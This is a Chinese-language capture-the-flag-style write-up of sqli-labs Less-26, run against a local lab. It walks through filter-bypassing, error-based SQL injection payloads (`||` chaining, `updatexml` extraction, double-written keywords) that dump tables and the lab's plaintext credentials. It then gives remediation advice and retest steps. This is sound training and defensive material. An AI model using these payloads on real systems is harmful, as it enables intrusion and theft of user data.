SQLI-LAB报告

## 漏洞概要

SQL注入是一类高危漏洞，存在于与数据库相关的环境中，本质上是在数据与代码没有严格分离的环境下，将用户输入的内容作为可执行语句从而实现注入行为。SQL注入漏洞常见于未使用参数化查询、以拼接字符串方式构造 SQL 的场景。攻击者可通过SQL注入实现对数据库内容的访问，极易导致用户个人信息的泄露，和密码哈希撞库其他网站的用户，甚至承担法律责任。

SQL注入点大致可分为两种：GET型和POST型。GET型SQL注入的特点是以URL作为注入点，通过修改URL参数的方式完成注入攻击；POST型注入的特点是payload不在URL显现，而是通过修改POST请求体的内容。

SQL注入手法可分为六种：联合查询注入、报错注入、布尔盲注、时间盲注、堆叠注入、带外注入。联合查询注入和报错注入的特点是需要回显位，注入快速而精确；布尔盲注和时间盲注的特点是以页面变化的方式作为判断基准，在联合查询注入和报错注入失效时尝试布尔盲注和时间盲注；**堆叠注入**的特点是可以执行查询之外的操作，用";"结束查询语句，然后添加自己想要执行的SQL语句；**带外注入（OOB）**的特点是靠DNS/HTTP访问服务器时携带数据库信息，然后通过查看服务器log的方式得到需要的内容。

## 漏洞检测

0、判断数据库类型

传 `id=1'` 制造语法错误，页面回显：

```
You have an error in your SQL syntax; check the manual that corresponds to
your MySQL server version for the right syntax to use near ''1'' LIMIT 0,1' at line 1
```

报错原文里直接写着 **MySQL**，不需要额外探测。再用版本与系统变量二次确认：

```
?id=1'||updatexml(1,concat(0x7e,(select(version())),0x7e),3)||'   → ~5.5.53-log~
?id=1'||updatexml(1,concat(0x7e,(select(user())),0x7e),3)||'      → ~root@localhost~
```

`5.5.53-log` 的 `-log` 后缀是 MySQL 的启动参数标志，可确认数据库类型为 **MySQL 5.5.53**。

1、检测数字型还是字符型

传 `id=1` 正常返回 `Dumb / Dumb`，传 `id=1'` 立即报错，说明参数被引号包裹，是**字符型**注入点。

2、检测闭合方式

`id=1'` 报错位置在 `near ''1'' LIMIT 0,1'`，即多出一个单引号，说明原语句为
`SELECT * FROM users WHERE id='$id' LIMIT 0,1`，闭合方式为**单引号**。

3、检测有无回显--盲注

页面**有回显位**（直接回显 username / password），并且**直接回显 SQL 报错原文**，
因此优先走**报错注入**，不需要退到布尔盲注或时间盲注。

4、检测过滤方式

本关把 `or`、`and`、`/**/`、`--`、`#`、所有空白字符、`/`、`\` 全部过滤掉了。
实测确认的过滤规则（源码 `function blacklist()`）：

- `-` 会被删除（`/[--]/` 匹配的是**单个**连字符），所以 `-1'` 用不了
- 注释符全部失效，无法用注释截断尾部 `' LIMIT 0,1`
- 空格被删，`union select`、`limit 0,1` 这类需要空格的语法直接不可用
- `information` 里的 `or` 会被删成 `infmation`，必须双写为 `infoorrmation_schema`

## 打靶练习

LESS-26



URL：http://127.0.0.1/sqli-labs-master/Less-26/?id=1

返回数据结果



URL：http://127.0.0.1/sqli-labs-master/Less-26/?id=1'

返回报错：**Warning**: mysql_fetch_array() expects parameter 1 to be resource, boolean given in **G:\PHPTutorial\WWW\sqli-labs-master\Less-26\index.php** on line **36**
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'' LIMIT 0,1' at line 1

发现闭合方式为'



URL：http://127.0.0.1/sqli-labs-master/Less-26/?id=1'--+

返回报错，说明注释符失效

通过构建闭合的方式写入执行语句



URL：http://127.0.0.1/sqli-labs-master/Less-26/?id=1''--+

返回数据结果，只可以在'和'之间写入语句



URL：http://127.0.0.1/sqli-labs-master/Less-26/?id=1' and 1=1'--+

返回报错：**Warning**: mysql_fetch_array() expects parameter 1 to be resource, boolean given in **G:\PHPTutorial\WWW\sqli-labs-master\Less-26\index.php** on line **36**
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '1=1'' LIMIT 0,1' at line 1

说明空格被过滤



URL：http://127.0.0.1/sqli-labs-master/Less-26/?id=1'||1=1||'

返回数据结果，说明||替代空格有效

使用报错注入的方式爆出库名、表名、列名和数据



URL：http://127.0.0.1/sqli-labs-master/Less-26/?id=1'||updatexml(1,concat(0x7e,database(),0x7e),3)||'



URL：http://127.0.0.1/sqli-labs-master/Less-26/?id=1'||updatexml(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema=database())),0x7e),3)||'

返回报错：**Warning**: mysql_fetch_array() expects parameter 1 to be resource, boolean given in **G:\PHPTutorial\WWW\sqli-labs-master\Less-26\index.php** on line **36**
Table 'infmation_schema.tables' doesn't exist

说明or被过滤，双写绕过



URL：http://127.0.0.1/sqli-labs-master/Less-26/?id=1'||updatexml(1,concat(0x7e,(select(group_concat(table_name))from(infoorrmation_schema.tables)where(table_schema=database())),0x7e),3)||'



URL：http://127.0.0.1/sqli-labs-master/Less-26/?id=1'||updatexml(1,concat(0x7e,(select(group_concat(column_name))from(infoorrmation_schema.columns)where(table_name='users')||(table_schema=database())),0x7e),3)||'

返回报错：**Warning**: mysql_fetch_array() expects parameter 1 to be resource, boolean given in **G:\PHPTutorial\WWW\sqli-labs-master\Less-26\index.php** on line **36**
XPATH syntax error: '~user_id,first_name,last_name,us'

此处第二个条件未生效，修改URL



URL：http://127.0.0.1/sqli-labs-master/Less-26/?id=2'||updatexml(1,concat(0x7e,(select(group_concat(column_name))from(infoorrmation_schema.columns)where(concat(table_name,table_schema)='userssecurity')),0x7e),3)||'

返回报错夹带列名，成功生效



URL：http://127.0.0.1/sqli-labs-master/Less-26/?id=2'||updatexml(1,concat(0x7e,(select(group_concat(concat_ws(':',username,passwoorrd)))from(users)),0x7e),3)||'

返回数据

注意双写or绕过过滤

返回的数据内容不完整，需多次爆破后拼接





完成

## 总结

### 一、影响与危害

**技术上能做什么**：注入点位于 URL 的 `id` 参数，用户输入被直接拼接进 SQL 语句
（`SELECT * FROM users WHERE id='$id' LIMIT 0,1`），且页面直接回显数据库报错原文，
因此无需任何凭据，仅靠一次 URL 参数修改即可读库。

本次实际验证到的最深程度：

| 验证内容 | 实测结果 |
|---|---|
| 当前库名 | `security` |
| 数据库版本 | `5.5.53-log` |
| 当前连接账号 | `root@localhost`（**最高权限**） |
| 库内表名 | `emails, referers, uagents, users` |
| `users` 表列名 | `id, username, password` |
| 表内数据 | **13 条记录的 username 与 password 全部取出**，且密码为明文 |

取出的数据（与数据库真值逐行核对一致）：

```
Dumb:Dumb, Angelina:I-kill-you, Dummy:p@ssword, secure:crappy,
stupid:stupidity, superman:genious, batman:mob!le, admin:admin,
admin1:admin1, admin2:admin2, admin3:admin3, dhakkan:dumbo, admin4:admin4
```

**对业务意味着什么**：

1. **账号被直接冒用**。密码是明文而非哈希，拿到即可登录，无需破解。表中存在
   `admin / admin` 这类管理员账号，攻击者可直接接管后台。
2. **撞库风险外溢**。用户在多个站点复用同一套账号密码是普遍现象，一批
   `用户名:明文密码` 泄露后可横向攻击该用户在邮箱、支付等其他平台的账户。
3. **合规责任**。账号密码属于个人信息，明文存储加可被拖库，同时触碰
   《网络安全法》与《个人信息保护法》下的数据安全义务。
4. **权限过高的放大器**。当前连接账号是 `root@localhost`。虽然本次只是 SELECT，
   但应用以最高权限连库，一旦漏洞被进一步利用（如堆叠注入、文件读写），
   影响范围会从"这一个库"扩大到"整个数据库实例"。

**利用门槛**：仅需浏览器与一次 URL 参数修改，无需登录、无需任何凭据。
若目标暴露在公网，攻击者可自动化批量拖库。

### 二、修复建议

1、根本修复：
   对该参数使用预编译（参数化查询）。其原理是数据库先确定语句结构、
   再将参数作为纯数据传入，用户输入永远不会进入 SQL 语法层被解析。

2、为什么不能用转义/过滤替代：
   转义引号、过滤关键字属于黑名单思路，只要存在一个未覆盖的绕过方式
   即告失效。这是"堵"而不是"隔离"。

3、临时缓解（代码改不动时）：
   - 该接口的数据库账号降权，仅保留必要的 SELECT 权限
   - 关闭详细报错回显（当前页面直接返回 SQL 报错，本身即信息泄露）
   - WAF 拦截 union select、information_schema 等特征

4、同类问题排查：
   按"是否存在字符串拼接构造 SQL"对全部接口做一次检索，注入点通常不止一处。

5、修复验证方法：
   用原 payload 复测：
   ?id=1'||updatexml(1,concat(0x7e,(select(database())),0x7e),3)||'
   预期：不再回显 '~security~'，返回参数错误或正常业务结果。

   并需更换手法复测，确认全部手法失效：

   - 报错注入（本关主力）：
     ?id=1'||updatexml(1,concat(0x7e,(select(user())),0x7e),3)||'
     预期：不回显 '~root@localhost~'
   - 逐行读取：
     ?id=1'||updatexml(1,concat(0x7e,(select(concat_ws(':',username,passwoorrd))from(users)where(id=1)),0x7e),3)||'
     预期：不回显 '~Dumb:Dumb~'
   - 布尔盲注：?id=1'||1=1||' 与 ?id=1'||1=2||'
     预期：两者页面响应完全一致，不再有真假差异

   **仅拦截 UNION 一种不视为修复完成**。本关本身就证明了这一点——
   开发者已经过滤了 or、and、注释符和全部空白字符，看起来"很严"，
   但只要参数仍被拼接进 SQL，绕过只是换个写法的问题。

### 三、延伸思考

**卡在哪**：

1、**最开始一直想"找一个能替代空格的字符"**。因为网上讲 Less-26 的文章都用 `%a0`，
我也照着试，`%a0`、`%0a`、`%09`、`%0c` 全试了一遍，全失败。
后来才发现本机根本不存在这个字符——把 256 个字节逐个喂给真实的 PHP 过滤和真实的
MySQL 连接，结果是：

```
能过 PHP /[\s]/ 过滤的字节 : 243 个
能同时当 MySQL 分隔符的字节 :  0 个
```

原因是我这台 `sql-connect.php` 没有调用 `mysql_set_charset()`，连接用服务端默认的
**utf8**，而 `0xA0` 只在 **latin1** 连接下才被 MySQL 当空格。写文章的人跑在 latin1 上，
所以他们的 `%a0` 有效，我照抄就一定失败。
**这一条把我卡了很久，结论是：换思路比换字符有用。**

2、**被自己的测试骗了一次**。用 `%%a0` 试探时页面回显了 `Dumb`，我以为成功了，
还基于这个结论往下推。后来做对照实验才发现，我传 `1,2,3,4,5` 五列、甚至传一个
不存在的函数 `nosuchfunc()`，页面**照样回显 `Dumb`**——说明那根本是原查询本来就
返回的第一行，跟注入无关。
**教训：任何一个"成功"的 payload，都必须用故意写错的方式反证一次。**

3、**列名那一步取到了别的库的列**。`where(table_name='users')||(table_schema=database())`
取回来的是 `user_id,first_name,last_name,...`，我一开始以为是本关有什么特殊限制。
实际原因是 `||` 是"或"不是"与"，加上第二个条件后过滤等于没加；
而 `information_schema` 里全服务器有三个叫 `users` 的表（`dvwa`、`pikachu`、`security`），
取到的是排在前面那个。
**后来改成把两个条件合成一个**（`concat(table_schema,0x2e,table_name)`）才取对。

4、**分块读取时把数据读坏了**。用 `substr(...,33,32)` 接着上一块读，拼出来的
`Dummy` 变成了 `Dmmy`、`dumbo` 变成了 `umbo`，我一度以为是过滤把字符删掉了。
实际是分块边界错位，不是过滤问题。
**后来改用"逐行 `where(id=N)` 精确定位"，就没有错位了。**

**学到什么**：

1、**`||` 不是"空格的替代品"，它是一条不需要空格的语法路径。**
这一关真正要理解的是：空格只在几个位置是必需的吗？`union select` 需要，
`limit 0,1` 需要，`order by` 需要。那就干脆**不走这些语法**，
改用 `||` 接报错注入——它靠括号和运算符分隔，全程一个空格都不用。
**遇到过滤，先想"能不能换条路"，而不是"怎么把这个字符补回来"。**

2、**报错注入是"最多才多艺"的手法。**
它需要的条件最少（只要回显报错），而且能直接套函数：
`database()`、`version()`、`user()`、`@@datadir`、`load_file()` 都能原地替换进 payload。
本关 `union select` 被空格卡死，`||` 报错注入却一路通到底。

3、**过滤规则必须从源码读，不能靠猜。**
`/[--]/` 看起来像"过滤两个减号"，实际**匹配单个连字符**，所以 `-1'` 里的负号会被吃掉；
`information` 里的 `or` 被删成 `infmation`，必须双写 `infoorrmation_schema`。
这些都不是靠试探能猜准的，读 `blacklist()` 函数一眼就明白了。
**以后每关都先看源码里的过滤函数，能省掉大量无效试探。**

4、**双写是"删一次补一次"，不是随便加字母。**
`passwoorrd` → 删掉一个 `or` → 还原成 `password` ✓
`passwwoord` → 删掉一个 `or` 后仍是 `passwwoord` ✗
关键是**让过滤后正好剩下你要的词**，多写一个字都不行。
